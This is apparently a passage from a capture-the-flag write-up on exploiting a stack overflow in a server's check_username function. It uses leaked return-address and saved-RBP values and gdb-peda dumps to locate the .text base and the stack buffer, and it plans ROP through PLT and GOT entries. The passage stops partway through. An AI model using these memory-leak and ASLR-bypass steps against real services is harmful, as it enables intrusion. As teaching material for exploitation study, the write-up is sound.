 ```
Found: 0xad
Found: 0x58
Found: 0xd
Found: 0xd
Found: 0x0
```

What we have so far:

1. Using the return address we can now learn the **start of the .text section**. We can use gadgets from there, as well as jumping to the @plt of functions there and probably use the Global Offset Table for libc functions to leak libc addresses

2. Using the RBP, we can learn **the address of our buffer on the stack** because the offset from the old rbp and our stack will be fixed regardless of the starting address of the stack section in memory.

Let's start by computing the address of our buffer on the stack. By looking at the server, when the server `read`s our input to `0x7fffffffe110`:
```
=> 0x555555554bc9 <check_username+90>:	call   0x555555554970 <read@plt>
   0x555555554bce <check_username+95>:	mov    DWORD PTR [rbp-0x414],eax
   0x555555554bd4 <check_username+101>:	mov    DWORD PTR [rbp-0x418],0x0
   0x555555554bde <check_username+111>:	jmp    0x555555554c0b <check_username+156>
   0x555555554be0 <check_username+113>:	mov    eax,DWORD PTR [rbp-0x418]
Guessed arguments:
arg[0]: 0x4 
arg[1]: 0x7fffffffe110 --> 0x7ffff7ffe4c8 --> 0x7ffff7ffe428 --> 0x7ffff7ff1510 --> 0x7ffff7ffe170 --> 0x555555554000 (--> ...)
arg[2]: 0x420 
```

And if we check out the old rbp value (at the bottom of the stack frame), we can check that value by looking at where our current `rbp` is pointing to `0x00007fffffffe590`:

```
gdb-peda$ x/4gx $rbp
0x7fffffffe520:	0x00007fffffffe590	0x0000555555554ecf
0x7fffffffe530:	0x00007fffffffe678	0x00000002f7dd7660
gdb-peda$ x/16gx $rbp-0x20
0x7fffffffe500:	0x4242424242424242	0x4242424242424242
0x7fffffffe510:	0x4242424242424242	0xc68342c2b57a9500
0x7fffffffe520:	0x00007fffffffe590	0x0000555555554ecf
0x7fffffffe530:	0x00007fffffffe678	0x00000002f7dd7660
0x7fffffffe540:	0x00007fffffffe5a8	0x0000000100000010
0x7fffffffe550:	0x0000001000000539	0x0000000000000004
0x7fffffffe560:	0x0000000039050002	0x0000000000000000
0x7fffffffe570:	0x010011ac589b0002	0x0000000000000000
```

The distance from old rbp `0x00007fffffffe590` to our buffer `0x7fffffffe110` is `0x480`.

Moving on to the .text section, we leaked a specific address of an instruction inside the `main` function (the one that ends with `0xcf`).<br>
We can again go back to our server to see the offset of that value from the start of the section
